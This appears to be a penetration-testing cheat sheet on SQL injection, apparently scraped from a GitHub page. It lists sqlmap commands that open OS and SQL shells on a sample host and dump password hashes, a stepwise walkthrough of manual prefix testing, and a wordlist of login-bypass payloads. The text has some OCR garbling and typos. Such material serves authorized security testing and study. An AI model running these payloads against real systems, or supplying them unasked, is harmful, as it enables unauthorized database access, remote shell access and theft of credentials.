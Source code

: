  - `` 
 - `sqlmap --dbms=mysql -u "https://pentest-experts.com/?search=xxx" --cookie="SID=123456ABC" --os-pwn`
 - `sqlmap --dbms=mysql -u "https://pentest-experts.com/?search=xxx" --cookie="SID=123456ABC" --os-shell`
 - `sqlmap --dbms=mysql -u "https://pentest-experts.com/?search=xxx" --cookie="SID=123456ABC" --sql-shell`
 - `sqlmap -r request.txt --parse-errors --dbs`  
   Parse SQL errors and output them to the console
 - `sqlmap -r request.txt --code=200 --dbs`  
   Use HTTP response code 200 to detect `True` - useful in case a `False` response would result in a different status code (e.g. 500 server error or 302 redicrection).
 - `sqlmap -r request.txt --string="Welcome" --dbs`  
   Detect `True` / `False` responses based on the presence / absence of a string.
 - `sqlmap -r request.txt --union-cols=5 --dbs`  
   Specify the number of coulumns for a unin based query manually.
 - `sqlmap -r request.txt --passwords`  
   Get the password-hashes from the users within the DBMS itself.
 - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
 - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass

Try also HTTP verb tampering - so try to send `GET` requests as `POST` and vice versa to test for insufficient filtering.

**Manual prefix testing**

 1. Testing `https://pentest-experts.com/case6.php?col=id'` = No output = Not sure if it worked
 2. Testing `https://pentest-experts.com/case6.php?col=id"` = No output = Not sure if it worked
 3. Testing `https://pentest-experts.com/case6.php?col=id%60` - SQL Error = Confirmed working but prefix not correct
 4. Testing `https://pentest-experts.com/case6.php?col=id%60+--+` - SQL Error = Confirmed working but prefix not correct, trying to add `)`
 5. Testing `https://pentest-experts.com/case6.php?col=id%60)+--+` - SQL Error = Confirmed working but prefix not correct, trying to add `)`
 6. Testing `https://pentest-experts.com/case6.php?col=id%60))+--+` - Some data output = Confirmed working, prefix correct, using `--prefix="%60))"` in SQLmap

 In case there is no error, I would try `')`, `'))`, ... and `")`, `"))`, ...

**Login bypass wordlist**

```
' OR 1=1-- 
' OR 1=1# 
' OR 1=1/* 
" OR 1=1-- 
" OR 1=1# 
" OR 1=1/* 
` OR 1=1-- 
` OR 1=1# 
` OR 1=1/* 
') OR 1=1-- 
') OR 1=1# 
') OR 1=1/* 
") OR 1=1-- 
") OR 1=1# 
") OR 1=1/* 
`) OR 1=1-- 
`) OR 1=1# 
`) OR 1=1/* 
' OR '1'='1 
" OR "1"="1 
` OR `1`=`1 
' UNION SELECT 1, 'admin', 'password'-- 
' UNION SELECT 1, 'admin', 'password'# 
```